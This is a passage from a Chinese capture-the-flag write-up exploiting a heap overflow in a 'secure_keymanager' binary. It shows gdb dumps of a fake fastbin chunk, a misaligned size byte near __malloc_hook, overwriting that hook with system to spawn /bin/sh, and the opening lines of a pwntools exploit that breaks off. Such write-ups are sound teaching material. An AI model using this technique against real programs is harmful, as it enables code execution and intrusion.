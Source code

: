 ```plain
0x1fad050:	0x4242424242424242	0x4242424242424242
0x1fad060:	0x4242424242424242	0x4242424242424242  <-- chunk 2
0x1fad070:	0x4242424242424242	0x0000000000000000
0x1fad080:	0x0000000000000000	0x0000000000000000
0x1fad090:	0x0000000000000000	0x0000000000000000
0x1fad0a0:	0x0000000000000000	0x0000000000000071  <-- fake chunk
0x1fad0b0:	0x0000000000000000	0x0000000000000000
0x1fad0c0:	0x0000000000000000	0x0000000000000000
0x1fad0d0:	0x0000000000000000	0x0000000000020f31
```
通过上述操作，我们实现了更大范围的堆溢出，而不是再局限于覆盖相邻chunk的size字段，我们可以用它覆盖相邻chunk上的FD/BK指针，来实现最后的攻击——利用fastbin attack劫持malloc_hook.
####Fastbin attack
&nbsp&nbsp&nbsp&nbsp fastbin所包含chunk的大小为0x20 Bytes, 0x30 Bytes, 0x40 Bytes, … , 0x80 Bytes。当分配一块较小的内存(mem<=0x80 Bytes)时，首先检查对应大小的fastbin中是否包含未被使用的chunk，如果存在则直接将其从fastbin中移除并返回；否则通过其他方式（剪切top chunk）得到一块符合大小要求的chunk并返回。
&nbsp&nbsp&nbsp&nbsp fastbin为单链表，fastbin为了快速分配回收这些较小size的chunk，并没对bk进行操作，即仅仅通过fd组成了单链表，而且其遵循后进先出(LIFO)的原则。
&nbsp&nbsp&nbsp&nbsp 本题存在着堆溢出漏洞，分配一个fastbin然后释放掉，伪造chunk结构，再利用堆溢出修改被释放的fastbin的fd指针为伪造chunk的地址，利用malloc将伪造的chunk分配出来，可以实现任意地址写。
```c
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
...
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
  {
    errstr = "malloc(): memory corruption (fast)";
```
&nbsp&nbsp&nbsp&nbsp malloc断开fastbin链表取出chunk时存在一个检查，要求被分配的chunk的size属于这个fastbin，否则会出现memory corruption(fast) 的错误，因为检查中没有进行对齐处理。所以可以利用错位来构造一个伪size结构以实现fasbin attack
```plain
gdb-peda$ x/10x 0x7f5b10f16ae0
0x7f5b10f16ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7f5b10f16af0 <_IO_wide_data_0+304>:	0x00007f5b10f15260	0x0000000000000000
0x7f5b10f16b00 <__memalign_hook>:	0x00007f5b10bd7e20	0x00007f5b10bd7a00
0x7f5b10f16b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7f5b10f16b20 <main_arena>:	0x0000000000000000	0x0000000000000000
```
&nbsp&nbsp&nbsp&nbsp _IO_wide_data_0+304地址的第0xd个字节为0x7f，我们就可以利用错位来构造伪chunk，将fastbin的fd指向malloc_hook- 0x30 + 0xd的位置
```plain
gdb-peda$ telescope 0x7f5b10f16aed
0000| 0x7f5b10f16aed --> 0x5b10f15260000000 <-- fake fastbin
0008| 0x7f5b10f16af5 --> 0x7f               <-- fake fastbin size
0016| 0x7f5b10f16afd --> 0x5b10bd7e20000000 
0024| 0x7f5b10f16b05 --> 0x5b10bd7a0000007f 
0032| 0x7f5b10f16b0d --> 0x7f 
0040| 0x7f5b10f16b15 --> 0x0 
```
&nbsp&nbsp&nbsp&nbsp 完成malloc_hook的劫持后，我们将其改为system函数的地址。这样，程序调用malloc时，相当于调用了system
```c
.text:0000000000400ADD                 call    getint
.text:0000000000400AE2                 mov     [rbp+var_C], eax
.text:0000000000400AE5                 mov     eax, [rbp+var_C]
.text:0000000000400AE8                 cdqe
.text:0000000000400AEA                 add     rax, 20h
.text:0000000000400AEE                 mov     rdi, rax        ; size
.text:0000000000400AF1                 call    _malloc
```
由于malloc函数的参数由getint()返回，为一个4字节的数，这样我们所传入的"/bin/sh"的地址只能在4字节以内。回到程序刚开始的地方，我们输入了两个全局变量account和master，他们的地址为0x6020C0和0x602130，满足4字节以内的要求，那么就可以将"/bin/sh"放在那里，愉快的getshell了。附上完整的exp:
```python
from pwn import *

c = process('./secure_keymanager')
```